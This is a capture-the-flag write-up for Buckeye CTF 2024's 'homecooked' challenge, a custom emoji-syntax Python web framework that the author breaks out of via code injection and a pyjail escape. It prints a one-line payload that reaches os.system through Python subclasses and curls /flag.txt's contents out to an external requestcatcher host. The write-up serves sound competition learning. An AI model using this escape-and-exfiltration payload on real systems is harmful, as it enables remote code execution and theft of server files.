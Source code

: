 # web / homecooked

A challenge from Buckeye CTF 2024

### Description

I've been working on my own ASGI-complaint Python web framework. It's still in the early stages, but I think it's coming along nicely. I've set up a demo site for you to try it out. Can you find the flag?

homecooked.challs.pwnoh.io

File: [homecooked.zip](./homecooked.zip)

### Solve

Starting to look through the code (and the actual site), you can see that it lets you run code in its home-made language with emojis. There's a whole grammar in lark file, which was super annoying to parse (curse CS 236 being useful). But the whole site ran on a template similar to flask, so the challenge was basically prompt injection.

I worked on this with LegoClones, since after I learned that it was pretty locked down in what it could run, it was a pyjail and I don't have a ton of experience there. Thankfully, lego knew what was going on. We used the grammar as implemented and the code injection section to print the flag with this string:

```py
🥢hex🥚__class__🥚__bases__🍎0🍏🥚__subclasses__🦀🦞🍎221🍏🦀🦞🥚_module🥚__builtins__🍎'__import__'🍏🦀'os'🦞🥚system🦀'curl http://lego.requestcatcher.com/$(cat /flag.txt)'🦞🥢
```

So kinda neat but also kinda annoying. The resource for solving the challenge was [this Hacktricks site](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)